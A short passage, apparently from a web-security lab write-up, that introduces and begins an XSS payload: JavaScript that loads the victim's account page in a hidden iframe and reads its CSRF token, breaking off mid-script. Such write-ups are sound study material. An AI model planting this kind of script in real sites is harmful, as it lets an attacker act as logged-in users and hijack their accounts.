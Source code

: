 <img src="images/image135.png" alt="third" width="500">

So we write a payload.
```
<script>

document.addEventListener('DOMContentLoaded', (event) => {

  // Extract the CSRF token

  const csrfToken = document.querySelector('input[name="csrf"]').value;

  // Create an invisible iframe to load the user's account page

  const iframe = document.createElement('iframe');

  iframe.style.display = 'none';

  iframe.src = '/my-account';

  document.body.appendChild(iframe);

  iframe.onload = function() {

    const iframeDocument = iframe.contentDocument || iframe.contentWindow.document;

    // Extract the CSRF token from the iframe

    const token = iframeDocument.querySelector('input[name="csrf"]').value;
```